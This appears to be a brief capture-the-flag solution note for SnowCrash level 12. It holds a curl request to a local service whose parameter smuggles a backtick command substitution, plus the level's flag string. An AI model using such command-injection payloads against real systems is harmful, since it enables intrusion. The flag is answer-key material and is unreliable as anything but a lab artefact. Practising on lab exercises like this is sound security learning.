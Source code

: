 #+TITLE: SnowCrash -- Level12


curl 'localhost:4646?x="`/*/HERE`"'

* FLAG:
** g1qKMiRpXf53AWhDaU7FEkczr
